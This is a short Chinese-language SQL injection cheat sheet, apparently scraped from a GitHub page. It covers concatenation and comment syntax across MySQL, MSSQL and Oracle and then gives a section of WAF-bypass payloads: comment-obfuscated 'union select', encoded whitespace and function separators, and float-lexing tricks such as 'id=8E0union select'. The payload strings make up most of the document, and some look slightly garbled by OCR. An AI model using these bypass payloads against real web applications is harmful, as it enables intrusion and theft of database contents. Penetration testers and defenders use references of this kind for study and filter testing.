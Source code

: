 MYSQL：‘a’ ‘b’=‘ab’

Oracle：‘a’||‘b’=‘ab’

  

### **注释符**

MSSQL：‘-- ’(注意后面的空格)，‘`/.../`’

MySQL：‘-- ’,‘# ’,‘`/.../`’，注意，--后面必须要有一个或者多个空格。

Oracle：‘-- ’,‘`/.../`’

三种数据库中，通用的注释符是‘-- ’

## **WAF绕过**

### 规则层面的绕过

#### **SQL注释符绕过**

`union/**/select`

`union/aaaa%01bbs/select`

`union/aaaaaaaaaaaaaaaaaaaaaaaaaaaa/select`

内连注释：`/!xxxx/`

#### **空白符号绕过：**

MySQL空白符：%90,%0A,%0B,%0D,%20,%0C,%A0,/xxx/

正则的空白符：%09,%0A,%0B,%0D,%20

Example-1：union%250Cselect

Example-1：union%25A0select

#### **函数分隔符号：**

concat%2520(

concat/\*\*/(

concat%250c(

concat%25a0(

#### **浮点数词法分析：**

```sql
select * from users where id=8E0union select
1,2,3,4,5,6,7,8,9,0
select * from users where id=8.0union select
1,2,3,4,5,6,7,8,9,0
select * from users where id=\Nunion select
1,2,3,4,5,6,7,8,9,0
```
